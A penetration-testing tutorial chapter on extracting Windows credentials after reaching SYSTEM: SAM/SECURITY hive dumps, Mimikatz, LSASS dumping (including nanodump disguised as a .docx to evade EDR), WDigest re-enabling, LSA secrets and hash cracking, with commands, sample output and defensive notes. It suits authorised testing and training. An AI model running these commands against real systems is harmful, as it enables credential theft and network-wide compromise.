





**Level:** Expert · **Track:** Penetration Testing · **Read time:** 120 min

This is Chapter 6 of the Privilege Escalation notebook. The previous chapters walked you from a low-privilege foothold up to SYSTEM on a single Windows host. This chapter answers the question that matters *after* you hold SYSTEM: **what secrets does that box store, and how do you extract every one of them?** Local password hashes, cleartext passwords still resident in memory, Kerberos tickets, cached domain logons, DPAPI-protected browser and vault secrets, and — if the box is a Domain Controller — the hashes of every account in the entire directory. Credential harvesting is the hinge between *privilege escalation on one machine* and *lateral movement across a whole network*, which is why it sits exactly here in the roadmap.

Everything in this chapter assumes an explicit, written, scoped engagement or lab hardware you own. Dumping LSASS, reading the SAM, or running DCSync against a Domain Controller are among the loudest, most heavily monitored actions in all of offensive security — modern EDR treats a handle to `lsass.exe` as a near-certain sign of attack. You will run these tools against your own VMs, HackTheBox / TryHackMe / Proving-Grounds targets, or systems named in a signed authorisation, and nowhere else. The woven-in defensive notes and the dedicated Detection & Defense section near the end exist so you understand both sides of every technique here: what it leaves behind, and how a blue team catches it.

---

## Part 1: The Map — Where Windows Keeps Its Secrets

Before touching a tool, you need a mental model of *where* credentials live on a Windows system. Credential harvesting is not one technique; it is a family of techniques, each targeting a different store, each with different prerequisites, different loot, and a different detection profile. Reaching for Mimikatz reflexively without knowing which store you actually want is how engagements get burned.

There are seven stores that matter. Learn this table cold — the rest of the chapter is essentially one section per row.

| Store | What lives there | Where it physically is | Access needed | Typical loot |
|-------|------------------|------------------------|---------------|--------------|
| **SAM database** | Local account password hashes (NT hashes) | `HKLM\SAM` hive (file `C:\Windows\System32\config\SAM`), encrypted with the SYSTEM bootkey | SYSTEM / local admin | Local admin & user NT hashes |
| **LSASS memory** | Live logon secrets: NT hashes, Kerberos keys/tickets, sometimes cleartext | `lsass.exe` process memory (RAM) | SeDebugPrivilege / SYSTEM | Domain + local creds of everyone logged on |
| **LSA secrets** | Service account passwords, auto-logon creds, machine account secret, DPAPI keys | `HKLM\SECURITY\Policy\Secrets` | SYSTEM | Cleartext service passwords, `$MACHINE.ACC` |
| **Cached domain logons (DCC2)** | Domain logon verifiers (MsCacheV2) for offline logon | `HKLM\SECURITY\Cache` | SYSTEM | Crackable domain hashes (slow) |
| **DPAPI-protected data** | Browser passwords, Wi-Fi keys, Credential Manager, RDP creds, private keys | Per-user `%APPDATA%\Microsoft\Protect`, app blobs | User context or masterkey | Cleartext app secrets |
| **NTDS.dit** | *Every* domain account's NT hash + Kerberos keys | `C:\Windows\NTDS\ntds.dit` on a Domain Controller | DA / DC SYSTEM / replication rights | The entire domain |
| **Credential Manager / Vault** | Saved RDP, web, and generic credentials | `%APPDATA%\Microsoft\Credentials`, Vault | User context | Cleartext saved creds |

Notice the pattern: almost every store is protected by *something you already have* once you are SYSTEM. The SAM is encrypted with a key derived from the SYSTEM hive — and you can read both. LSASS is a normal process — and SYSTEM can open a handle to it. LSA secrets are decrypted with the same bootkey. The single most important consequence of reaching SYSTEM/local-admin is that *all local credential material becomes readable*. Domain-wide material (NTDS.dit) needs one more step: either standing on a DC, or holding replication rights to pull it remotely (DCSync).



**Pentester landing on a fresh SYSTEM shell:** your first three moves are almost always (1) dump the SAM for local hashes you can reuse or crack, (2) dump LSASS for whatever domain user is logged on, and (3) grab LSA secrets for service-account passwords. If the box turns out to be a DC, the game changes entirely — you go straight for NTDS.dit and the `krbtgt` hash, which is a golden-ticket generator for the whole forest.

---

## Part 2: Why the Secrets Are There — A Fast Authentication Recap

To harvest credentials effectively you have to understand *why* Windows keeps them resident at all. This section is a compressed recap of material from the Windows Fundamentals and Active Directory notebooks — enough to make every later extraction make sense.

### 2.1 What an "NT hash" actually is

When a Windows account has a password, Windows does **not** store the password. It stores the **NT hash**: `MD4(UTF-16-LE(password))` — a single unsalted MD4 of the little-endian Unicode password. No salt, no iteration count, no work factor.

```text
password:  "Password1"
UTF-16-LE: 50 00 61 00 73 00 73 00 77 00 6f 00 72 00 64 00 31 00
NT hash:   64f12cddaa88057e06a81b54e73b949b
```

Two consequences flow from "unsalted, un-iterated":

1. **Identical passwords produce identical hashes** on every Windows machine on Earth. This is why rainbow tables and cracking rigs are so effective against NT hashes, and why breached-password lists translate directly to crackable hashes.
2. **The hash *is* the credential** for NTLM authentication. NTLM never sends the password — it proves knowledge of the NT hash via challenge-response. So if you steal the NT hash you can authenticate *without cracking it*. This is the entire basis of **Pass-the-Hash** (Part 10).

You will also meet the **LM hash** (LAN Manager) — an ancient, catastrophically weak scheme (uppercased, split into two 7-char halves, DES). Disabled by default since Windows Vista / Server 2008; you'll see it as `aad3b435b51404eeaad3b435b51404ee` (the LM hash of an empty string) in dumped output, which just means "no LM hash stored."

### 2.2 Why LSASS holds live secrets

The **Local Security Authority Subsystem Service** (`lsass.exe`) enforces the local security policy, handles logons, and issues access tokens. To support **Single Sign-On (SSO)** — so you don't retype your password at every file share or intranet site — LSASS caches the material needed to authenticate on your behalf while you're logged in:

- Your **NT hash** (for NTLM SSO).
- Your **Kerberos keys and tickets** (TGT and service tickets) for Kerberos SSO.
- Historically, your **cleartext password** via the **WDigest** provider. WDigest cleartext caching was on by default through Windows 7 / Server 2008 R2 and can still be *re-enabled* by an attacker on modern hosts (Part 5).

This is the crux: **SSO requires reusable secrets to sit in memory**, and LSASS is where they sit. Harvesting LSASS is therefore harvesting "everyone currently logged on."



**Blue-team relevance:** this is also why signing out, or the account being a *network*-only logon (type 3), changes what's harvestable. A user who authenticated to a share but never interactively logged on may leave only a Kerberos ticket, not a reusable hash — the logon type dictates the loot.

---

## Part 3: The SAM & SYSTEM Hives — Local Account Hashes

The **SAM** (Security Account Manager) database stores the NT hashes of **local** accounts (the local `Administrator`, local service users, etc.). It does *not* contain domain accounts — those live in NTDS.dit on the DC. On a domain-joined workstation the SAM is often small but still valuable: a reused local-admin password is a lateral-movement goldmine.

### 3.1 Why you need two hives

The SAM hashes are not stored in the clear. They are encrypted with a key called the **bootkey** (a.k.a. SysKey), which is itself scattered across the **SYSTEM** hive. So to decrypt SAM hashes you always need **both** `SAM` and `SYSTEM`. Many first-time attempts fail because someone dumps only the SAM and wonders why the hashes are garbage.

### 3.2 Live extraction from the registry

With a SYSTEM (or local-admin) shell, save the hives directly with the built-in `reg save` command — no third-party tool required.

```cmd
reg save HKLM\SAM      C:\Windows\Temp\sam.save
reg save HKLM\SYSTEM   C:\Windows\Temp\system.save
reg save HKLM\SECURITY C:\Windows\Temp\security.save
```

- `reg save` — writes a live copy of a registry hive to a file even though the hive is "in use" (it uses the backup API).
- `HKLM\SAM` — the hive path. `HKLM\SECURITY` is grabbed too because it holds LSA secrets and cached logons (Part 7).
- The output path is arbitrary; `C:\Windows\Temp` is world-writable and unremarkable.

**Note:** reading `HKLM\SAM` requires SYSTEM, not merely administrator — the SAM key's ACL grants only SYSTEM. If `reg save HKLM\SAM` throws *Access is denied* from an admin shell, elevate to SYSTEM first (e.g. `PsExec -s`, a scheduled task as SYSTEM, or a token technique from Chapter 5).

Now exfiltrate the three files and parse them **offline** on your attack box with `impacket-secretsdump` — keeping the noisy parsing off the target:

```bash
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

Realistic output:

```text
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x8d4f9e2a7b1c0e5f6a3d9c8b2e1f4a70
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
svc_backup:1001:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/jsmith:$DCC2$10240#jsmith#a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:6f9b4c2e1a8d7c3b5f0e9a2d4c6b8e10
[*] DefaultPassword
(Autologon) : SuperSecretAutologon!
[*] Cleaning up...
```

Reading the SAM lines: `username:RID:LMhash:NThash:::`. The RID `500` is always the built-in local Administrator. The NT hash `31d6cfe0d16ae931b73c59d7e0c089c0` is the hash of an **empty password** — memorise it, it appears constantly for disabled/blank accounts. The `svc_backup` NT hash is real loot: take it to Part 10 and Pass-the-Hash, or to Hashcat and crack it.

### 3.3 Cracking local NT hashes

If you'd rather crack than pass, feed the NT hash to Hashcat mode **1000** (NTLM):

```bash
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

- `-m 1000` — hash type NTLM.
- `-a 0` — straight (dictionary) attack.
- `-r best64.rule` — apply the 64 most productive mangling rules to each word.

NTLM is so fast to compute that a single modern GPU does tens of billions of guesses per second — weak passwords fall in seconds. (Hashcat/John were covered in the Password Attacks notebook; here it's just the final step.)

### 3.4 Mimikatz on the live SAM

You can also read the SAM from memory with Mimikatz (introduced properly in Part 5) without saving hives:

```text
mimikatz # token::elevate
mimikatz # lsadump::sam
```

- `token::elevate` — impersonate a SYSTEM token so the SAM key is readable.
- `lsadump::sam` — parse the live SAM + SYSTEM bootkey and print local hashes.

The offline `secretsdump` route is quieter (parsing off-host); the Mimikatz route is faster but touches a heavily-signatured binary. Choose based on the engagement's stealth requirements.

---

## Part 4: LSASS Memory — The Crown Jewels of a Single Host

LSASS memory is the richest single-host credential target because it holds the secrets of **everyone currently or recently logged on interactively** — including domain users whose hashes never touch the local SAM. This is where you get the domain admin who RDP'd in to fix something and forgot to log off.

### 4.1 What's actually in there

Depending on Windows version, patch level, and configuration, LSASS memory can yield:

| Provider | Yields | Notes |
|----------|--------|-------|
| **msv** (MSV1_0) | NT hash (and LM on old boxes) | Always present for interactive logons |
| **wdigest** | Cleartext password | Disabled by default since 2014 (KB2871997), re-enablable |
| **kerberos** | Kerberos keys + TGT/TGS tickets | Enables Pass-the-Ticket / ticket export |
| **tspkg** | Cleartext (Terminal Services) | Legacy |
| **credman** | Credential Manager saved creds | Cleartext saved creds |
| **ssp / livessp** | Cleartext (older SSPs) | Legacy |

### 4.2 The protections you will hit

Modern Windows fights back. Recognise each protection because it dictates your approach:

- **RunAsPPL / LSA Protection (PPL):** LSASS runs as a *Protected Process Light*. Even SYSTEM cannot open a normal handle to it. Registry: `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1`. Bypasses exist (a signed vulnerable driver to strip the PP flag — Mimikatz's `!processprotect`/`mimidrv`, or tools like PPLKiller/PPLBlade), but they load a kernel driver and are extremely loud.
- **Credential Guard:** Uses Virtualization-Based Security (VBS) to isolate secrets in a separate VTL1 "secure world" (LSAIso). When on, LSASS memory simply does **not** contain the reusable NT hash or Kerberos keys — dumping it yields nothing useful. You pivot to other techniques (keylogging, DPAPI, or asking the DC via DCSync).
- **Defender/EDR handle monitoring:** Opening a `PROCESS_VM_READ` handle to `lsass.exe` is one of the most reliable attack tells there is. Even a *successful* dump often triggers an alert.



The rest of this part and Parts 5–6 walk each leaf of that tree. The golden rule of modern LSASS harvesting: **dump on the target, parse on your box.** Creating a memory dump file is less signatured than running a full credential-parser in memory; getting the parser (Mimikatz/pypykatz) off the endpoint keeps the loudest code away from EDR.

---

## Part 5: Mimikatz From Scratch

**Mimikatz** is the single most important credential-harvesting tool in Windows security, written by Benjamin Delpy (`gentilkiwi`). It began as a proof-of-concept that Windows kept reusable secrets in LSASS memory and grew into a Swiss-army knife for every Windows credential and Kerberos abuse. Every defender knows its signatures, so on a real EDR-monitored host you'll often prefer the mimikatz-*free* routes in Part 6 — but you must understand Mimikatz first, because its concepts (sekurlsa, DCSync, pass-the-hash, golden tickets) are the vocabulary of the whole field, and its offline mode (`sekurlsa::minidump`) is still the reference parser.

### 5.1 Anatomy: modules and commands

Mimikatz commands are `module::command`. The modules you'll use for harvesting:

| Module | Purpose | Key commands |
|--------|---------|--------------|
| `privilege` | Acquire privileges the process needs | `privilege::debug` |
| `token` | Token manipulation / impersonation | `token::elevate` |
| `sekurlsa` | Read secrets from LSASS memory | `sekurlsa::logonpasswords`, `sekurlsa::ekeys`, `sekurlsa::tickets`, `sekurlsa::minidump` |
| `lsadump` | Read from registry/hives/DC | `lsadump::sam`, `lsadump::secrets`, `lsadump::cache`, `lsadump::dcsync` |
| `dpapi` | Decrypt DPAPI-protected blobs | `dpapi::masterkey`, `dpapi::cred`, `dpapi::chrome` |
| `kerberos` | Ticket abuse | `kerberos::ptt`, `kerberos::golden` |
| `crypto` | Certificate/key export | `crypto::certificates` |

### 5.2 Getting it and running it

Mimikatz ships as `mimikatz.exe` (x64/x86). On Kali the source and binaries are typically under `/usr/share/windows-resources/mimikatz/` or you fetch a release from the `gentilkiwi/mimikatz` repo. You transfer the matching architecture to the target and run it in an elevated console. The near-universal opening two commands:

```text
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

- `privilege::debug` — enables **SeDebugPrivilege** for the Mimikatz process, which is what lets it open a handle into another process's memory (LSASS). `Privilege '20' OK` confirms success (20 is the LUID of SeDebugPrivilege). If this fails you are not elevated — stop and fix privileges first.
- `sekurlsa::logonpasswords` — the flagship command: walks every logon session in LSASS and prints all recoverable secrets per session.

Annotated output for one session:

```text
Authentication Id : 0 ; 515766 (00000000:0007deb6)
Session           : Interactive from 1
User Name         : jsmith
Domain            : CORP
Logon Server      : DC01
Logon Time        : 11/13/2026 8:02:15 AM
SID               : S-1-5-21-1004336348-1177238915-682003330-1108
        msv :
         [00000003] Primary
         * Username : jsmith
         * Domain   : CORP
         * NTLM     : 5f4dcc3b5aa765d61d8327deb882cf99
         * SHA1     : a94a8fe5ccb19ba61c4c0873d391e987982fbbd3
        tspkg :
        wdigest :
         * Username : jsmith
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jsmith
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
```

Reading it:

- `msv` → `NTLM : 5f4dcc3b...` is `jsmith`'s **NT hash**. Immediately reusable for Pass-the-Hash. That single line is the whole point of the exercise.
- `wdigest → Password : (null)` — WDigest cleartext caching is *off* (patched host), so no plaintext here. On an unpatched or attacker-modified host this line would show the actual password.
- `kerberos → Password : (null)` — cleartext not present, but Kerberos keys/tickets still are (see `sekurlsa::ekeys` / `sekurlsa::tickets`).

### 5.3 The other sekurlsa commands you'll use constantly

```text
mimikatz # sekurlsa::ekeys
```

Dumps Kerberos **encryption keys** (including the AES256 key) per session — more useful than the RC4/NT hash for modern Overpass-the-Hash because AES avoids RC4-downgrade detections.

```text
mimikatz # sekurlsa::tickets /export
```

- `sekurlsa::tickets` — lists Kerberos tickets (TGTs and service tickets) in memory.
- `/export` — writes each ticket to a `.kirbi` file on disk, ready for **Pass-the-Ticket** (`kerberos::ptt ticket.kirbi`) or conversion for Rubeus.

```text
mimikatz # sekurlsa::pth /user:Administrator /domain:CORP /ntlm:64f12c... /run:cmd.exe
```

`sekurlsa::pth` performs **Pass-the-Hash**: it starts `cmd.exe` with a logon session whose NTLM secret is the hash you supply, so any network authentication from that shell uses the stolen hash. (More in Part 10.)

### 5.4 The WDigest re-enable trick

If a host has WDigest disabled but you can wait for a re-logon, an attacker with admin can flip it back on so the *next* interactive logon leaves cleartext in memory:

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

- `UseLogonCredential = 1` re-enables cleartext caching. You then wait for the user to lock/unlock or re-authenticate, and `sekurlsa::logonpasswords` yields plaintext.

**Blue-team relevance:** setting `UseLogonCredential` to `1` is a high-fidelity detection — legitimate software essentially never does this. Monitor that exact registry value; a change to `1` is an alert on its own (MITRE ATT&CK T1112 + T1003.001 precursor).

### 5.5 Offline parsing with Mimikatz (`sekurlsa::minidump`)

The stealthier pattern: create an LSASS dump file with a *non-Mimikatz* method (Part 6), copy it off, then point Mimikatz at the dump on your own machine:

```text
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
```

- `sekurlsa::minidump lsass.dmp` — tells `sekurlsa` to read from a saved minidump instead of live LSASS.
- The subsequent `logonpasswords` now parses the file. No handle to `lsass.exe` was ever opened by Mimikatz on the target.

---

## Part 6: Dumping LSASS Without `mimikatz.exe`

Because `mimikatz.exe` is universally signatured, the professional pattern is **dump the LSASS process to a file with a benign or living-off-the-land technique, then parse offline with pypykatz or Mimikatz**. Here are the techniques, from most to least "lives off the land," and a comparison table.

### 6.1 comsvcs.dll MiniDump (fully living-off-the-land)

Windows ships a DLL, `comsvcs.dll`, that exports a function `MiniDump` you can invoke via `rundll32` to dump any process by PID. Nothing extra is dropped.

```cmd
:: 1. find the LSASS PID
tasklist /fi "imagename eq lsass.exe"

:: 2. dump it (run as SYSTEM)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 672 C:\Windows\Temp\lsass.dmp full
```

- `tasklist /fi "imagename eq lsass.exe"` — filters the process list to LSASS to read its PID (here, `672`).
- `rundll32.exe comsvcs.dll, MiniDump` — calls the `MiniDump` export.
- `672` — the LSASS PID.
- `C:\Windows\Temp\lsass.dmp` — output dump path.
- `full` — dump type (full memory), required for credential recovery.

Requires SYSTEM (the call opens LSASS with full read). **Blue-team relevance:** `rundll32` invoking `comsvcs.dll MiniDump` is a well-known signature — EDR and Sysmon rules key on this exact command line (ATT&CK T1003.001). It's "living off the land" but not stealthy against a tuned SOC.

### 6.2 ProcDump (Microsoft-signed)

**ProcDump** is a Microsoft Sysinternals tool — signed by Microsoft, so it sometimes slips past application-control policies that trust Microsoft binaries.

```cmd
procdump.exe -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp
```

- `-accepteula` — auto-accepts the EULA (avoids an interactive prompt).
- `-ma` — full memory dump (all process memory), needed for creds.
- `lsass.exe` — target by name (or use the PID).

Some EDRs block ProcDump-on-LSASS specifically; an alternative name/trick is to dump by PID or use the `-r` reflection option on newer versions.

### 6.3 Task Manager (pure GUI, no binary dropped)

If you have interactive desktop access (RDP as admin), the quietest tool of all is built in: **Task Manager → Details → right-click `lsass.exe` → Create dump file**. It writes `%TEMP%\lsass.DMP`. No suspicious binary, no odd command line — just a signed OS process writing a dump. Great when you have a GUI session and want minimal footprint.

### 6.4 nanodump (evasion-focused)

**nanodump** (from the Coff-loader/BOF ecosystem) creates a *minimal, valid* LSASS minidump using direct syscalls and handle-duplication tricks to avoid the classic `MiniDumpWriteDump` API that EDR hooks. It can also produce an invalid-signature dump you fix up offline, defeating naive dump-file scanners. Typical Cobalt-Strike/BOF usage:

```text
beacon> nanodump --write C:\Windows\Temp\report.docx --valid
```

- `--write` — where to save (disguised extension).
- `--valid` — write a valid minidump signature (omit it to write a corrupted header you repair offline, which some scanners miss).

This is red-team territory — it exists specifically to evade the detections in Part 12.

### 6.5 Parse the dump offline with pypykatz

**pypykatz** is a pure-Python reimplementation of Mimikatz's `sekurlsa` by Tamas Jos (`skelsec`). It parses an LSASS dump *on Linux* — no Windows, no Mimikatz, no touching the target again.

```bash
pip install pypykatz          # once
pypykatz lsa minidump lsass.dmp
```

- `lsa minidump` — the subcommand that parses a minidump file's LSA secrets.
- `lsass.dmp` — the file you exfiltrated.

Output mirrors Mimikatz:

```text
== LogonSession ==
authentication_id 515766
session_id 1
username jsmith
domainname CORP
logon_server DC01
== MSV ==
Username: jsmith
Domain: CORP
NT: 5f4dcc3b5aa765d61d8327deb882cf99
SHA1: a94a8fe5ccb19ba61c4c0873d391e987982fbbd3
== Kerberos ==
Username: jsmith
Domain: CORP.LOCAL
== WDIGEST ==
```

### 6.6 Technique comparison

| Technique | Drops a binary? | Signed? | Typical detection | Best when |
|-----------|-----------------|---------|-------------------|-----------|
| `comsvcs.dll MiniDump` | No (LOLBin) | OS DLL | High — signatured command line | No upload possible |
| ProcDump `-ma` | Yes | Microsoft-signed | Medium | App-control trusts MS bins |
| Task Manager dump | No | OS process | Low–medium | You have a GUI/RDP session |
| nanodump (BOF) | In-memory | No | Low (evasion-built) | Mature EDR present, red team |
| Mimikatz `sekurlsa` live | Yes | No | Very high | Lab / low-monitoring only |

Whichever you use, the **parse step happens on your attack box** with `pypykatz` or `sekurlsa::minidump`.

---

## Part 7: LSA Secrets & Cached Domain Logons

Two more stores live in the `HKLM\SECURITY` hive you already saved in Part 3. Both are decrypted with the SYSTEM bootkey, so once you have SYSTEM they are free loot.

### 7.1 LSA Secrets — cleartext service passwords

**LSA Secrets** (`HKLM\SECURITY\Policy\Secrets`) is where Windows stores secrets that services and the OS need in *reusable* form — which frequently means **cleartext**. What you find here:

- **Service account passwords** — every service configured to run as a domain/local account stores that account's password here in cleartext (`_SC_<servicename>`). A service running as a domain admin hands you a domain admin password.
- **`$MACHINE.ACC`** — the computer account's password/hash, which lets you authenticate *as the machine* (useful for some AD attacks and for pulling a TGT as the host).
- **`DefaultPassword`** — if auto-logon is configured, the cleartext logon password sits here.
- **DPAPI system keys** (`DPAPI_SYSTEM`) — used to decrypt machine-scope DPAPI blobs (Part 8).

Extract with either the offline secretsdump from Part 3 (it already printed `[*] Dumping LSA Secrets`) or live with Mimikatz:

```text
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

Realistic hit:

```text
Domain : WS01
SysKey : 8d4f9e2a7b1c0e5f6a3d9c8b2e1f4a70

Secret  : _SC_MSSQLSERVER / service 'MSSQLSERVER'
          cur/text: Sup3rS3cr3tSQLpass!

Secret  : $MACHINE.ACC
          cur/hex : 6f9b4c2e1a8d7c3b5f0e9a2d4c6b8e10 ...
```

`_SC_MSSQLSERVER → Sup3rS3cr3tSQLpass!` is a cleartext domain/service credential you can spray or use directly. **Red team usage:** service-account passwords found in LSA Secrets are often the fastest path from a random workstation to a privileged domain account, because service accounts are over-permissioned and their passwords rarely rotate.

### 7.2 Cached Domain Logons (DCC2 / MsCacheV2)

So a laptop user can log in when the DC is unreachable (on a plane, at home), Windows caches a **verifier** for the last N domain logons (default 10) in `HKLM\SECURITY\Cache`. This is **not** the NT hash — it's **MsCacheV2** (a.k.a. DCC2, "Domain Cached Credentials v2"), a PBKDF2-based, *salted and iterated* derivation. That design choice matters enormously:

- You **cannot** Pass-the-Hash a DCC2 value — it's not usable in any authentication protocol. It exists only to verify a typed password offline.
- You can only **crack** it, and because it's salted+iterated it's *far* slower than NTLM — Hashcat mode **2100**, orders of magnitude slower than mode 1000.

```text
mimikatz # lsadump::cache
```

```text
[NL$1 - 11/13/2026] RID : 00000454 (1108)
User : CORP\jsmith
MsCacheV2 : a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
```

Crack it (note the required `$DCC2$` format):

```bash
hashcat -m 2100 -a 0 '$DCC2$10240#jsmith#a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6' rockyou.txt
```

- `-m 2100` — Domain Cached Credentials 2 (MsCacheV2).
- The token embeds the iteration count (`10240`), the username as salt (`jsmith`), and the verifier.

